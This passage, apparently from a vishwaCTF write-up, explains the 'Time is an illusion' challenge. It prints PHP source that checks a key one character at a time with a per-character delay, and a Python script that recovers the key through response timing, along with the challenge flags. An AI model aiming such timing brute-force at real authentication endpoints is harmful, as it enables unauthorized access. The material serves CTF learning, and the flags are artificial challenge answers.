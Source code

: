 flag : **vishwaCTF{r0bot_15_t00_0P}**

### Time is an illusion 
--------------------

desc : The source should convey it all 

challenge link : https://time-is-an-illusion.vishwactf.com/

Going to the webpage there is an input box and a hyperlink to the source code

```php=
<?php
include "env.php";
set_time_limit(0);
if(isset($_GET['key'])){
    $your_input = $_GET['key'];
    if(strlen($your_input)!=5){
    die("It's five characters long, and may or may not contain numbers or characters or small letters or capital letters");
    }
    for($i=0; $i<strlen($your_input);$i++)
    {
        $let_check=$_ENV['our_input'];
        if($your_input[$i]!=$let_check[$i]){
            die("VERY VERY VERY INCORRECT");
        }
        usleep(1000000);
    }
    echo getenv('THE_THING_YOU_ARE_LOOKING_FOR');
}
?>
```
So we have to input a 5 letter word and each time the character is correct we can see a delay of 1s in the response. Taking the dealy in the response we made a python code to get the password.

```python
import os
import string
import requests
scope = string.ascii_letters+string.digits
print(scope)
payload = ""
s = requests.Session()
for char in scope:
    payload = char*5
    r = s.get("https://time-is-an-illusion.vishwactf.com/handle.php",params={"key":payload})
    print(payload)
    print(r.elapsed.total_seconds())
```
Since the delay was 1s we had to try a few times but we got the password as **KuKa9** and that gave us the flag 

flag : **`vishwaCTF{PhP_h@$_iTs_0wN_PErK$}`**

